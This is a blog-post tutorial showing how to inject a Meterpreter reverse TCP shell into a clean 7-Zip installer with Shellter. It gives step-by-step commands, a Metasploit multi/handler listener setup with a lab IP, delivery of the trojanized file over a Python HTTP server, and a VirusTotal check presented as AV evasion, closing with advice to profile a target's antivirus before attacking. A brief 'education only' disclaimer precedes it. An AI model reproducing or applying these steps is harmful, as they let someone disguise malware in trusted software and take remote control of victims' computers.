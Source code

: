 ```yaml
---
title: "Inject malicious code into PE using Shellter"
date: "2020-04-11"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hey everyone. 

This is for research and education purpose only. If you do something bad, do with your own risk.

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Website: [https://www.shellterproject.com/](https://www.shellterproject.com/)

We gonna use this tool to inject our meterpreter reverse shell into a clean PE and we will start listening for the shell and execute the malware at the client side.

## Installation

Since Shellter is designed to be run on Windows operating systems, we will also install wine

```
apt update
apt install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 && apt install wine
```

## Download our clean PE file

In my case, I'm using 7zip installer.

```
wget https://www.7-zip.org/a/7z1900.exe
```

## Start shellter
```
shellter
```

//pic1

## Select Mode and PE path

Shellter can run in either Auto or Manual mode. So, in our case here, we gonna run using Auto mode by selecting `A`. You may want use manual mode for advance option.

For PE target, type the path of your PE location and ENTER.

//pic2


## Enable stealth mode

Let's wait for a second..

//pic3

Shellter will then ask us if we want Stealth Mode which it will restore the PE execution flow after our payload has been executed. Choose 'Y' for yes. Then ENTER.

//pic4

## Choose payload 

It will then ask us to choose between using those displayed payload or our own custom payload. 

Type 'L' for listed payload and select index '1' for Meterpreter reverse TCP payload.

//pic5

## Set your IP and Port for the payload

```
SET LHOST: 192.168.83.129
SET LPORT: 4444
```

Shellter then will do his job for us.

## PE Injection done

Shellter will tell us that our injection is verified
//pic6

## Transfering file

Transfer malicious PE file to our Windows client. For our case, I'm using Python HTTP server.
```
python -m SimpleHTTPServer 8080
```

In our Windows client, navigate to our Kali Linux IP with port 8080 in web browser. Then, download the malicious PE file.

## Set up meterpreter listener

Setup our meterpreter listener to catch our reverse shell after execute the PE file

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.83.129
lhost => 192.168.83.129
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.83.129:4444
```

## Execute and pwned

Soon we download the PE...
 //pic7
 
Execute the malicious PE and take a look at our multi handler listener at our Kali Machine.
//pic8

As you can see above, the binary act normally and our payload is executed. Hooray.
//pic9

## Scan with VirusTotal

Scanning through VirusTotal results us 25/70 detection.
//pic10

As you can see, there is a lot of AV that doesnt detect this malware too.
//pic11

So, make sure to gather information about our target client's AV first before attempt to attack.





